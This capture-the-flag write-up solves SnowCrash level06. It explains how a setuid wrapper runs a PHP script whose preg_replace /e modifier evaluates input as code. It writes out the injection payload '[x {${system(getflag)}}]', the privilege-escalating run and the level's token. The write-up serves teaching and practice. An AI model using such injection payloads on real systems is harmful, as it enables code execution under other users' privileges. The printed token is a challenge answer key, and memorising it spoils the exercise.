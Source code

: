 Listing the files in the directory, we find a binary file and a php script:

```bash
level06@SnowCrash:~$ ls -la
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x--- 1 flag06 level06 356 Mar 5  2015 level06.php
```

The s in level06 permissions indicates the SetUID bit. This means the file will run with the privileges of its owner instead of the user executing it. In our case, the owner is flag06.

### **Analyzing level06 binary file**

```bash
level06@SnowCrash:~$ file level06
level06: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs)
```

To analyze the binary file, we transfer it to our local machine using **scp**:

```bash
level06@SnowCrash:~$ scp -P 4242 level06@127.0.0.1:/home/user/level06/level06 ./
```

We decompile the binary using [dogbolt.org](http://dogbolt.org) 

The script calls **getegid()** and **geteuid()** to retrieve the effective group ID and user ID, and then uses **setresgid()** and **setresuid()** to set them. In our case, these correspond to the **flag06** IDs.

### **Analyzing level06.php**

```php
#!/usr/bin/php
<?php
function y($m) {
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}

function x($y, $z) { 
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	return $a; 
}

$r = x($argv[1], $argv[2]);
print $r;
?>
```

**The y() function**

Input: 

- $m → a string

Behavior: 

- Replace . by “ x ” in $m
- Replace @ by “ y” in $m

Return $m

**The x() function**

Input : 

- $y → a path to a file
- $z → unused

Behavior:

- Get the content of the file and stores it in $a
- Replace [ by ( in $a
- Replace ] by ) in $a
- Replaces [x something] with the result of y(”something”)

Return $a

**Regex explanations**

| PHP | Meaning |
| --- | --- |
| preg_replace() | Search and replace |
| preg_replace("/\./", " x ", $m) | Replace . by ” x “ in $m |
| preg_replace("/@/", " y", $m) | Replace @ by “ y” in $m |
| preg_replace("/\[/", "(", $a) | Replace [ by ( in $a |
| preg_replace("/\]/", ")", $a) | Replace ] by ) in $a |
| preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a) | Replaces [x something] with the result of y(”something”) |

Detailed explanation of **preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a)** : 

| Regex | Meaning |
| --- | --- |
| \[x | Matches [x literally |
| (.*) | Nested capture inside Group 1. Captures everything after [x **as Group 2** |
| \] | Matches ] literally |
| **(\[x (.*)\])** | This captures everything from [x …. ] including the brackets as Group 1 |
| /e | Modifier, evaluates the replacement as PHP code |
| **/(\[x (.*)\])/e** | Matches [x something], captures “something” in group 2 and evaluates y(\"\\2\") as PHP code (deprecated for security reason) |

**Exemple:**

**The problem with /e**

/e is a modifier deprecated for security reasons. It is used to evaluate the replacement string as PHP code. 

Normally, preg_replace($pattern, $replacement, $subject) just replaces text, but with /e the replacement part is executed as PHP code. 

**There is a security risk of code injection. To perform an injection in this context means to change the $subject variable.**

In our case $subject is passed through command-line as a file.

First, as we did in previous levels, we create a file into /tmp/ to save the result and set the appropriate permissions so the PHP injection script can write to it.

```bash
level06@SnowCrash:~$ touch /tmp/my_dir/script
level06@SnowCrash:~$ chmod 777 /tmp/my_dir/script
level06@SnowCrash:~$ echo '[x {${system(getflag)}}]' > script
```

Running the script:

```bash
level06@SnowCrash:~$ ./level06 script
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : **wiok45aaoguiboiki2tuin6ub**
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```
